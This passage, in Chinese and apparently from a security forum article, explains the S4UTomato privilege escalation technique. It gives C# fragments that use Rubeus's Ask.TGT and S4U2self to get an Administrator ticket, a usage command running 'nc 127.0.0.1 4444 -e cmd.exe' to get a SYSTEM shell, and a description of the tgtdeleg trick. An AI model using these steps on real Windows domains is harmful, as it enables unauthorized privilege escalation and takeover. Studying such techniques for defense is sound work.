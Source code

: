 接着，将 X509 数字证书转换为 PFX（PKCS#12）格式的字节数组，并使用给定的密码保护该 PFX。然后，将 PFX 格式的证书字节数组转换为 Base64 字符串，并传递到 Rubeus 提供的 `Ask.TGT()` 方法中，以请求 TGT 票据。

```c#
byte[] certBytes = cert.Export(X509ContentType.Pfx, password);
string certString = Convert.ToBase64String(certBytes);

// ...
// base64Certificate = certString

string targetUser = $"{domain}\\Administrator";
string targetSPN = "";
string altService = $"HOST/{Environment.MachineName}";
string outfile = "";
bool ptt = true;
bool self = true;
string keyString = "";

// ...

byte[] byteTgt = Ask.TGT(targetComputer, domain, base64Certificate, password, encType, "", ptt: true, domainController, luid, true, getCredentials: true);
```

最后，将返回的 TGT 字节数据转换为 KRB\_CRED 对象，并传入 Rubeus 提供的 `S4U.Execute` 方法执行 S4U2self 过程，以代表域管理员用户请求针对当前计算机上 HOST 服务的票据。

```c#
KRB_CRED kirbi = new KRB_CRED(byteTgt);

encType = Interop.KERB_ETYPE.subkey_keymaterial;
S4U.Execute(kirbi, targetUser, targetSPN, outfile, ptt, domainController, altService, null, null, null, self, false, false, keyString, encType);
```

请求到的服务票据将被提交到内存中，可以通过 SCMUACBypass 访问 Service Control Manager（SCM）创建系统服务，从而获取 SYSTEM 权限，执行效果如下所示。

```console
S4UTomato.exe shadowcred -c "nc 127.0.0.1 4444 -e cmd.exe" -f
```

![shadowcred](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-80433448bfc9dfac6fb01609a9b96788ef59a479.gif)

Tgtdeleg
--------

Benjamin Delpy（[@gentilkiwi](https://github.com/gentilkiwi)）在其 [Kekeo](https://github.com/gentilkiwi/kekeo/blob/4fbb44ec54ff093ae0fbe4471de19681a8e71a86/kekeo/modules/kuhl_m_tgt.c#L189-L327) 中加入了一个技巧（tgtdeleg），允许你滥用无约束委派来获取一个带有会话密钥的本地 TGT。

&lt;img src="C:\\Users\\whoami\\AppData\\Roaming\\Typora\\typora-user-images\\image-20230728091637233.png" alt="image-20230728091637233" style="zoom:67%;" /&gt;

Tgtdeleg 通过滥用 Kerberos GSS-API，以获取当前用户的可用 TGT，而无需在主机上获取提升的权限。该方法使用 `AcquireCredentialsHandle` 函数获取当前用户的 Kerberos 安全凭据句柄，并使用 `ISC_REQ_DELEGATE` 标志和目标 SPN 为 `HOST/DC.domain.com` 调用 `InitializeSecurityContext` 函数，以准备发送给域控制器的伪委派上下文。这导致 GSS-API 输出中的 KRB\_AP-REQ 包含了在 Authenticator Checksum 中的 KRB\_CRED。然后，从本地 Kerberos 缓存中提取服务票据的会话密钥，并用它来解密 Authenticator 中的 KRB\_CRED，从而获得一个可用的 TGT。Rubeus 工具集种也融合了该技巧，具体细节请参考 “[*Rubeus – Now With More Kekeo*](https://blog.harmj0y.net/redteaming/rubeus-now-with-more-kekeo/#tgtdeleg)”。
